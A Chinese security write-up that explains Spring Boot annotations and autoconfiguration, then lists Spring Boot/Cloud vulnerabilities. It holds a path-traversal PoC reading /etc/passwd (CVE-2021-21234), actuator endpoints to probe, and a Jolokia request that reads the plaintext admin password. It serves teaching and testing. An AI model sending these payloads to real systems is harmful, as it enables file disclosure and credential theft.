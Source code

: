 springboot自动配置用到的注解 @SpringBootApplication、@SpringBootConfiguration、@ComponentScan @EnableAutoConfiguration、@AutoConfigrationPackage、@EnableConfigurationProperties外部配置文件导入注解 @PropertySource定时任务用到注解 @EnableScheduling、@Scheduled、@EnableAsync、@Async过滤器 @WebFilter、@ServletComponentScan拦截器监听器校验器 @Validated异常处理 @ControllerAdvice、@ExceptionHandler  
  
自动加载原理：SpringBoot 在启动时会去依赖的starter包中寻找 resources/META- INF/spring.factories文件，然后根据文件中配置的Jar包去扫描项目所依赖的Jar包，这类似于 Java 的 SPI 机制。注释：SPI的英文名称是Service Provider Interface，是Java 内置的服务发现机制。根据spring.factories配置加载AutoConfigure类。根据 @Conditional注解的条件，进行自动配置并将Bean注入Spring Context上下文当中  
# springboot-cve_2021_21234  
  
环境：vulfocus.cnSpring Boot是由Pivotal团队提供的全新框架，其设计目的是用来简化新Spring应用的初始搭建以及开发过程。该框架使用了特定的方式来进行配置，从而使开发人员不再需要定义样板化的配置。通过这种方式，Spring Boot致力于在蓬勃发展的快速应用开发领域(rapid application development)成为领导者。  
  
存在文件包含漏洞漏洞Poc/manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../修复方案：升级到 0.2.13  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hlf1RcNVxU1jP7rWjRs56yy2ubF3e91nt4amCjcRibqwkN6OsRFfRFcdg/640?wx_fmt=png&from=appmsg "null")  
## SpringCloud  
  
Spring Cloud是基于 Spring Boot 来进行构建服务，并提供如配置管理、服务注册与发现、智能路由等常见功能的帮助快速开发分布式系统的系列框架的有序集合。参考大师傅的一张图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HloeVkIQg0v8ic1dBO7IQYYgjN1P2qZQ3w6sR4ooiakGhHdg6l8PT803EA/640?wx_fmt=png&from=appmsg "null")  
### 信息泄露漏洞  
  
此漏洞主要就是一些路由地址和接口的信息泄露，验证路由如下利用工具springscan 扫描  
```
/v2/api-docs
/swagger-ui.html
/env

//获取参数信息
/mappings
/metrics
/beans
/configprops
/actuator/metrics
/actuator/mappings
/actuator/beans
/actuator/configprops
```  
### 敏感信息明文获取  
  
如果说目标网站存在一些接口依赖 jolokia-cor如/jolokia、/actuator/jolokia  
- • **调用 org.springframework.boot Mbean**  
  
实际上是调用org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty方法poc  
```
//spring 1.x 版本

markup
POST /jolokia
Content-Type: application/json

{"mbean":"org.springframework.boot:name=SpringApplication,type=Admin","operation":"getProperty","type":"EXEC","arguments":["security.user.password"]}

//spring 2.x 版本

markup
POST /actuator/jolokia
Content-Type: application/json

```